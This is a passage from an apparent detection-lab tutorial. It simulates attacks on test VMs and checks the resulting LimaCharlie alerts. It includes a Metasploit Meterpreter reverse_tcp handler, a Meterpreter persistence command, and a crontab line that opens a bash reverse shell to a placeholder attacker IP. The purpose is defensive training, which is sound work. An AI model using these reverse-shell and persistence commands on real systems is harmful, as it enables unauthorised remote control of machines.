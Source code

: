 - Test access:
    
    ```
    cd /root/SecretFiles
    ```
    
    Should return **Permission Denied** for normal users.
    
- **Simulate Unauthorized Access**:
    
    - Use Metasploit to gain a shell on the Linux VM.
    - Attempt `cd /root/SecretFiles`.
- **LimaCharlie Detection**:
    
    - Check alerts under **Detections → Unauthorized File Access**.

---

## Module 3: Process Monitoring & Persistence Detection

### 3.1. Windows: Meterpreter Persistence

- **Simulate an Attack:**
    
    ```
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    ```
    
    - Deploy the payload and establish a session.
    - Set up persistence:
        
        ```
        run persistence -U -i 5 -p 4444 -r <Attacker-IP>
        ```
        
- **LimaCharlie Detection**:
    - Check **Detections → Suspicious Process Creation**.
    - Observe **unexpected scheduled tasks or registry modifications**.

### 3.2. Linux: Cronjob Backdoor

- **Simulate an Attack**:
    - Establish a session via Metasploit.
    - Add a cron job for persistence:
        
        ```
        echo "* * * * * /bin/bash -i >& /dev/tcp/<Attacker-IP>/4444 0>&1" >> /etc/crontab
        ```
        
- **LimaCharlie Detection**:
    - Check **Detections → Unauthorized Cron Modifications**.

---

## Module 4: Network Traffic Analysis
